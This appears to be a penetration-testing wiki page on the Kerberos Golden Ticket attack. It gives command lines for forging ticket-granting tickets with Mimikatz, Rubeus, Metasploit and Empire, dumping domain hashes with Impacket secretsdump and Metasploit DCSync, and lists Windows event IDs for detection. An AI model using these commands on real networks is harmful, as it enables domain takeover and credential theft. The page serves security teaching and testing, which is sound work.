 ```yaml
---
description: >-
  The Golden Ticket attack is a sophisticated technique used to exploit the
  Kerberos authentication protocol. Kerberos is widely used in enterprise
  environments to provide secure authentication and ...
cover: ../.gitbook/assets/Golden Tickets.png
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 🥇 Golden Ticket

<figure><img src="../.gitbook/assets/Golden Tickets.png" alt=""><figcaption></figcaption></figure>

### Forging TGT = Golden Ticket

A Kerberos Golden Ticket is a forged authentication ticket that grants unauthorized access to a Windows domain controller. It is typically used by attackers who have compromised a domain controller and gained access to its password hashes, allowing them to generate a valid ticket-granting ticket (TGT).

<details>

<summary><strong>ATT&#x26;CK ID:</strong> <a href="https://attack.mitre.org/techniques/T1558/001/">T1558.001</a></summary>

Adversaries who have the KRBTGT account password hash may forge Kerberos ticket-granting tickets (TGT), also known as a golden tickets. Golden tickets enable adversaries to generate authentication material for any account in Active Directory.

</details>

### Learn the Theory Behind Golden Tickets Attacks

{% embed url="https://ad-attacks.com/golden-ticket-attack-explained/" %}

### When to use a Golden Ticket?

### Requirements to forge a Golden Ticket

{% hint style="danger" %}
Full domain compromise (Domain Admin) is required
{% endhint %}

<table><thead><tr><th width="281.3333333333333">Info</th><th width="464">Example</th></tr></thead><tbody><tr><td>Domain</td><td>poplabsec.rfs</td></tr><tr><td>Domain SID</td><td>S-1-5-21-3523557010-2506964455-2614950430</td></tr><tr><td>KRBTGT NTLM / AES256 Hash</td><td>f3bc61e97fb14d18c42bcbf6c3a9055f</td></tr></tbody></table>

### How to Create Golden Tickets with MimiKatz?

{% hint style="success" %}
Check the parameter /ptt - it open a new shell with the created ticket in that session
{% endhint %}

{% code overflow="wrap" %}
```powershell
mimikatz kerberos::golden /domain:rfs,local /sid:<string> /user:Administrator /krbtgt:<NTLM Hash> /ptt
```
{% endcode %}

### How to Create Golden Tickets with Rubeus?

{% code overflow="wrap" %}
```
rubeus.exe hash /user:rfs /domain:poplabsec.rfs /password:Password@1
```
{% endcode %}

<pre data-overflow="wrap"><code>rubeus.exe golden /<a data-footnote-ref href="#user-content-fn-1">aes256</a>:EA2344691D140975946372D18949706857EB9C5F65855B0E159E54260BEB365C /ldap /user:rfs /printcmd
</code></pre>

### How to Create Golden Tickets with Impacket?

{% code overflow="wrap" %}
```
python secretsdump.py administrator:Paa@987@192.168.1.105 -outputfile krb -user-status
```
{% endcode %}

### How to Create Golden Tickets with Metasploit?

```
load kiwi
dcsync_ntlm krbtgt
```

{% code overflow="wrap" %}
```
golden_ticket_create -d poplabsec.rfs -u rfs -s S-1-5-21-3523557010-2506964455-2614950430 -k f3bc61e97fb14d18c42bcbf6c3a9055f -t /root/Desktop/ticket.kirbi
```
{% endcode %}

### How to Create Golden Tickets with Empire?

```
usemodule credential/mimikatz/golden_ticket
set domain
set sid
set user rfs
set group
set id 500
set krbtgt_hash
```

### Monitoring Golden Tickets

<table data-full-width="true"><thead><tr><th width="137">Event ID</th><th width="397">Description</th><th>Fields</th></tr></thead><tbody><tr><td>4769</td><td>A Kerberos Service Ticket was requested.</td><td>Account Name, Service Name, Client Address</td></tr><tr><td>4624</td><td>An account was successfully logged on.</td><td>Account Name, Account Domain, Logon ID</td></tr><tr><td>4627</td><td>Identifies the account that requested the logon.</td><td>Security ID, Account Name, Account Domain, Logon ID</td></tr></tbody></table>

### References

1. [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
2. [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)
3. [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
4. [Metasploit | Penetration Testing Software, Pen Testing Security | Metasploit](https://www.metasploit.com/)
5. [https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire)

[^1]: 
